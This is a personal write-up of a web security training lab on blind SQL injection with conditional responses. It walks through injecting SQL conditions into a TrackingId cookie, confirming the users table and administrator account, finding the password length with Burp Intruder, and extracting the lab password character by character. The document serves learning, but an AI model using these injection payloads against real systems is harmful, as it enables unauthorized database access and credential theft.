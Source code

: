 #+title: Blind SQL injection with conditional responses
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]

* Table of Contents :toc:
- [[#lab-contain][Lab Contain]]
- [[#goal][Goal]]
- [[#find-out-the-features][Find out the Features]]
- [[#verify-welcome-back-behaviour-based-on-injected-query-on-trackingid-to-confirm-blind-sql-injection-vulnerability][Verify "Welcome Back!" behaviour based on injected query on ~TrackingId~ to confirm blind SQL injection vulnerability]]
- [[#verify-that-there-is-a-table-called-users][Verify that there is a table called ~users~]]
- [[#verify-that-there-is-a-user-called-administrator][Verify that there is a user called ~administrator~]]
- [[#determine-how-many-characters-are-in-the-password-of-the-administrator][Determine how many characters are in the password of the ~administrator~]]
- [[#test-the-character-at-each-position-to-determine-the-password][Test the character at each position to determine the password]]
- [[#solve-the-lab][Solve the Lab]]

* Lab Contain
+ Blind SQL injection vulnerability
+ Use TrackingID in cookie for analytics
+ Show *"Welcome Back!"* message on successful query
+ DB contains table ~users~ with columns ~username~ and ~password~
* Goal
+ Exploit the blind SQL injection vulnerability and gain Password for ~administrator~
+ Login as ~administrator~

* Find out the Features
/Find the features of the application that might be vulnerable to blind SQL injection/

Since this application use ~trackingID~. It can be the point. Based on the ~trackingID~ application shows message "Welcome Back!" on the web page. If the ~trackingID~ exist on DB then it shows the message else not.

Now we can systematically determine the password for ~administrator~ by sending series of inputs to test the password one character at a time. We can send query like this
#+begin_src sql
  AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) > 'm
#+end_src

If this returns the message, then the injected condition is true and so the first character of the password is greater than m

* DONE Verify "Welcome Back!" behaviour based on injected query on ~TrackingId~ to confirm blind SQL injection vulnerability
CLOSED: [2023-07-31 Mon 14:55]
Application use like this query to check the trackingId. If it matches then it shows *Welcome Back!* message on the application.
#+begin_src sql
  SELECT trackingId FROM tracking.table WHERE trackingId = 'T9IjXtGqVbhsOlr3'
#+end_src

Now we can manipulate this query with conditional clause to verify the blind SQL injection

#+begin_src sql
  SELECT trackingId FROM tracking.table WHERE trackingId = 'T9IjXtGqVbhsOlr3' AND 1 = 1 --'
#+end_src
/condition true show *Welcome back!* message/

#+begin_src sql
  SELECT trackingId FROM tracking.table WHERE trackingId = 'T9IjXtGqVbhsOlr3' AND 1 = 0 --'
#+end_src
/condition false does not show *Welcome back!* message/

* DONE Verify that there is a table called ~users~
CLOSED: [2023-07-31 Mon 14:55]
#+begin_src sql
  SELECT trackingId FROM tracking.table WHERE trackingId = 'T9IjXtGqVbhsOlr3' AND (SELECT 'a' FROM users LIMIT 1) = 'a
#+end_src
return that message means ~users~ table exist in DB

* DONE Verify that there is a user called ~administrator~
CLOSED: [2023-07-31 Mon 14:55]
#+begin_src sql
  SELECT trackingId FROM tracking.table WHERE trackingId = 'T9IjXtGqVbhsOlr3' AND (SELECT username FROM users WHERE username='administrator')='administrator'--'
#+end_src
/return true that means there is users called administrator on the users table/

* DONE Determine how many characters are in the password of the ~administrator~
CLOSED: [2023-07-31 Mon 15:07]
To find out the length of the password for administrator user we can send this query
#+begin_src sql
  SELECT trackingId FROM tracking.table WHERE trackingId = 'T9IjXtGqVbhsOlr3' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'--' 
#+end_src
/If the password length greater that 1 then it should send the Welcome back! message. If  not then no message will come. We can increase the number sequentially until do not get the message/

We can use the burpsuite intruder to automate this task.

[[./assets/screenshots/lab11-intruder.png]]
/Here we can see that from 1 to 19 the injected query return true. so that wecome back message returns. But after that query return false, so no message returns on application/
*So the lenght of the password is 20*
* DONE Test the character at each position to determine the password 
CLOSED: [2023-07-31 Mon 16:04]
#+begin_src sql
  SELECT trackingId FROM tracking.table WHERE trackingId = 'T9IjXtGqVbhsOlr3' AND (SELECT SUBSTRING(password, 1,1) FROM users WHERE username='administrator')='a'--' 
#+end_src
+ check if the first character of password of administrator user is 'a'
+ if first character of password is a then move to second position of password. We have to continue this process until 20 character. That's the length of password.
+ we can change the character position and letters until we find out the password

| Position  | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13 | 14 | 15 | 16 | 17 | 18 | 19 | 20 |
|-----------+---+---+---+---+---+---+---+---+---+----+----+----+----+----+----+----+----+----+----+----|
| Character | l | q | y | 7 | d | d | g | o | v |  j |  t |  d |  w |  2 |  1 |  1 |  b |  3 |  1 |  s |

+ So the password for administrator is ~lqy7ddgovjtdw211b31s~

* DONE Solve the Lab
CLOSED: [2023-07-31 Mon 16:05]
Now login into the system with credential to solve the lab
- username: ~administrator~
- password: ~lqy7ddgovjtdw211b31s~
